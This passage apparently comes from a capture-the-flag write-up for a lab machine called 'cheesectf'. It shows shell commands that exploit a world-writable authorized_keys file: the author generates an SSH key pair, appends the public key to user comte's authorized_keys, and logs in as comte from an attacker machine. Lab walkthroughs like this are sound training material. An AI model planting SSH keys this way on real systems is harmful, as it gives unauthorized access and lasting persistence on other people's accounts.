 ```shell
www-data@cheesectf:/home/comte/.ssh$ ls -la
ls -la
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4  2024 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys
```

We instantly know what it means, we can generate a **SSH key pair** and simply paste our **public key** in the `authorized_keys` file, then use our **secret key** from our attacker machine to connect as `comte` with SSH and retrieve the **first flag**.

```shell
# Generate the key pair
user@att-machine:~$ ssh-keygen -t rsa -b 4096
```

```shell
# Paste the public key in /home/comte/.ssh/authorized_keys
www-data@cheesectf:/home/comte/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ[...]0jKJzswseB4Ut8bl6aGHTlOk6X2UhoQ== user@att-machine" >> authorized_keys
```

```shell
# Connect to the target machine with our private key
user@att-machine:~$ ssh -i ./id_rsa comte@10.10.131.228
```
